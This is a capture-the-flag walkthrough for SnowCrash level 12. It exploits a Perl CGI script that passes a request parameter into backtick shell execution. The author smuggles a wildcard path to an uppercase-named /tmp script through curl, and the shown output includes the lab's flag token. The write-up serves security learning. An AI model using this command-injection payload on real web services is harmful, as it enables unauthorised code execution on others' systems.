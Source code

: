 # 1st Step
List the files in level12 user home directory will show us a pearl file owned by `flag12` user :
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$
```
The perl script is running a webserver on the port 4646, that can take two params, x and y. We can verify it with the `curl` command :
```
level12@SnowCrash:~$ curl -I 192.168.1.30:4646                                                                                                                                                                                               
HTTP/1.1 200 OK
Date: Sun, 13 Sep 2020 17:47:23 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html

level12@SnowCrash:~$
```
The program uses backticks to evaluate a shellscript "`@output = [...]`" This command is run by the script in a subshell so we have no way to see the standard output directly.  
```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];                           # get second argument
  $xx = $_[0];                           # get first argument
  $xx =~ tr/a-z/A-Z/;                    # capitalize every letter
  $xx =~ s/\s.*//;                       # delete anything following a whitespace
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # find match of first arg inside /tmp/xd, redirect errors to stdout. Here is our security breach (after that we don't care).
  foreach $line (@output) {              # for each match
      ($f, $s) = split(/:/, $line);      # get match 
      if($s =~ $nn) {                    # if match equals second argument
          return 1;                      # return true
      }
  }
  return 0;                              # else return false
}

                                         # print ".." if first arg is true / "." otherwise ¯\(°_o)/¯
sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```  
As we can see in the comments above, the regex will capitalize the first argument (x) and delete anything after a space so we can't directly write x="`getflag>/tmp/token`" which would be translated as x="`GETFLAG>/TMP/TOKEN`"  
Instead we will write a file that will get executed.  

# 2nd Step
Create an executable script which run getflag and redirects its output to a file. Name it with uppercase letters.  
Because of the first regex, we have to use a wildcard in our path `/*/[EXPLOIT_FILE]` will find every `[EXPLOIT_FILE]`.
```
level12@SnowCrash:~$ vim /tmp/MAXISIMO_SCRIPT
level12@SnowCrash:~$ cat /tmp/MAXISIMO_SCRIPT
`getflag` > /tmp/flag
level12@SnowCrash:~$
```
Then use curl as we want to execute a pearl script and make a http call :
```
level12@SnowCrash:~$ cd /tmp
level12@SnowCrash:/tmp$ vim EXPLOIT
level12@SnowCrash:/tmp$ chmod 777 EXPLOIT
level12@SnowCrash:/tmp$ cat EXPLOIT
#!/bin/sh
getflag > /tmp/flag
level12@SnowCrash:/tmp$ cd
level12@SnowCrash:~$ curl localhost:4646?x='`/*/EXPLOIT`'
..level12@SnowCrash:~cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13
Password: 
level13@SnowCrash:~$
```

Level 12 passed !
